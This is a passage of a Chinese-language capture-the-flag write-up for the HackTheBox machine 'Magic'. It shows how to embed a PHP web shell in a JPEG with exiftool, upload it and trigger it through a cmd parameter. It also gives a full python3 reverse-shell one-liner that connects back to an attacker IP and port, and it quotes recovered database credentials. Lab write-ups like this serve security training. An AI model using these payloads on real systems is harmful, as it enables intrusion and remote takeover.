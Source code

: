 也可以使用exiftool增加exif信息，但是这样的处理方法命令回显在乱码中，不容易找到。而追加方法则会让回显在页面最后，清晰可见

```bash
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' jpg_cmd_shell.php.jpg
```

![image-20200626225120009]({{ site.url }}/assets/Magic_185.assets/image-20200626225120009.png)

上传

![image-20200626225222859]({{ site.url }}/assets/Magic_185.assets/image-20200626225222859.png)

![image-20200626225344184]({{ site.url }}/assets/Magic_185.assets/image-20200626225344184.png)

```bash
10.10.10.185/images/uploads/jpg_cmd_shell.php.jpg?cmd=id
```

![image-20200626232903423]({{ site.url }}/assets/Magic_185.assets/image-20200626232903423.png)

这是exiftool的方法制作的，回显在乱码中间，再看看通过普通追加的

```bash
10.10.10.185/images/uploads/img_cmd_shell.php.jpg?cmd=id
```

![image-20200626233722054]({{ site.url }}/assets/Magic_185.assets/image-20200626233722054.png)

回显在页面最下发

查看是否具有python

![image-20200626233950257]({{ site.url }}/assets/Magic_185.assets/image-20200626233950257.png)

python没有，只有python3 ，一样的，在本地1337端口建立监听，浏览器命令

```bash
10.10.10.185/images/uploads/img_cmd_shell.php.jpg?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.189",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

图片似乎很快被清理掉了，如果出现404,则重新上传图片即可

![image-20200626234359406]({{ site.url }}/assets/Magic_185.assets/image-20200626234359406.png)

一些枚举之后发现数据库凭证

![image-20200627001902951]({{ site.url }}/assets/Magic_185.assets/image-20200627001902951.png)

```bash
theseus:iamkingtheseus
```

尝试密码复用，但是并没有成功

![image-20200627002100762]({{ site.url }}/assets/Magic_185.assets/image-20200627002100762.png)
